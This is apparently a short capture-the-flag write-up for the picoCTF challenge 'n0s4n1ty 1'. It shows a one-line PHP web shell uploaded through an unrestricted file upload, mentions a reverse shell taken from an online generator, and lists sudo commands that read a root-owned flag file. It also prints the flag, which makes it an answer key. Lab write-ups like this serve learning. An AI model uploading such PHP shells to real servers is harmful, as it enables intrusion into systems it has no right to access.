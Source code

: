 ## n0s4n1ty 1

Classic overthinking. Initially Allan thought the challenge had to do with directory traversal but Faraz noted that we could upload anything.

Testing a simple PHP script
```php
<?php shell_exec('ls'); ?>
```

shows us that we can run arbitrary commands on the server.

After some mild trolling around, our final solution came using a shell from [revshells.com](https://www.revshells.com/) which we used to run the following commands
```bash
ls -l /
# drwx------   1 root   root     22 Mar  6 03:56 root

sudo ls /root
# flag.txt

sudo cat /root/flag.txt
# picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}
```
